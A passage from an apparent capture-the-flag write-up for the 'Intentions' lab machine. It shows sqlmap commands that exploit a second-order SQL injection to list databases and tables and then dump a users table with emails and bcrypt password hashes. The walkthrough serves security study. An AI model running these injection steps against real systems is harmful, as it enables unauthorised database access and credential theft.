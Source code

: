     [16:40:11] [INFO] fetched data logged to text files under '/home/oxdf/.local/share/sqlmap/output/10.10.11.220'
    

#### Enumerate

I’ll add `--dbs` to the end and it prints the two db names:

    
    
    oxdf@hacky$ sqlmap -r genres.request --second-req feed.request --batch --tamper=space2comment --technique=U --level 5 --dbs
    ...[snip]...
    [16:43:51] [INFO] fetching database names
    available databases [2]:
    [*] information_schema
    [*] intentions
    ...[snip]...
    

Replacing `--dbs` with `-D intentions --tables` will list the tables in
`intentions`:

    
    
    oxdf@hacky$ sqlmap -r genres.request --second-req feed.request --batch --tamper=space2comment --technique=U --level 5 -D intentions --tables
    ...[snip]...
    [16:44:50] [INFO] fetching tables for database: 'intentions'
    Database: intentions
    [4 tables]
    +------------------------+
    | gallery_images         |
    | migrations             |
    | personal_access_tokens |
    | users                  |
    +------------------------+
    ...[snip]...
    

Replacing `--tables` with `-T users --dump` will dump that table:

    
    
    oxdf@hacky$ sqlmap -r genres.request --second-req feed.request --batch --tamper=space2comment --technique=U --level 5 -D intentions -T users --dump                              
    ...[snip]...
    Database: intentions
    Table: users
    [28 entries]
    +----+-------------------------------+--------------------------+--------------------------------+---------+--------------------------------------------------------------+---------------------+---------------------+
    | id | email                         | name                     | genres                         | admin   | password                                                     | created_at          | updated_at          |
    +----+-------------------------------+--------------------------+--------------------------------+---------+--------------------------------------------------------------+---------------------+---------------------+
    | 1  | steve@intentions.htb          | steve                    | food,travel,nature             | 1       | $2y$10$M/g27T1kJcOpYOfPqQlI3.YfdLIwr3EWbzWOLfpoTtjpeMqpp4twa | 2023-02-02 17:43:00 | 2023-02-02 17:43:00 |
    | 2  | greg@intentions.htb           | greg                     | food,travel,nature             | 1       | $2y$10$95OR7nHSkYuFUUxsT1KS6uoQ93aufmrpknz4jwRqzIbsUpRiiyU5m | 2023-02-02 17:44:11 | 2023-02-02 17:44:11 |
    | 3  | hettie.rutherford@example.org | Melisa Runolfsson        | food,travel,nature             | 0       | $2y$10$bymjBxAEluQZEc1O7r1h3OdmlHJpTFJ6CqL1x2ZfQ3paSf509bUJ6 | 2023-02-02 18:02:37 | 2023-02-02 18:02:37 |
    | 4  | nader.alva@example.org        | Camren Ullrich           | food,travel,nature             | 0       | $2y$10$WkBf7NFjzE5GI5SP7hB5/uA9Bi/BmoNFIUfhBye4gUql/JIc/GTE2 | 2023-02-02 18:02:37 | 2023-02-02 18:02:37 |
    | 5  | jones.laury@example.com       | Mr. Lucius Towne I       | food,travel,nature             | 0       | $2y$10$JembrsnTWIgDZH3vFo1qT.Zf/hbphiPj1vGdVMXCk56icvD6mn/ae | 2023-02-02 18:02:37 | 2023-02-02 18:02:37 |
    | 6  | wanda93@example.org           | Jasen Mosciski           | food,travel,nature             | 0       | $2y$10$oKGH6f8KdEblk6hzkqa2meqyDeiy5gOSSfMeygzoFJ9d1eqgiD2rW | 2023-02-02 18:02:37 | 2023-02-02 18:02:37 |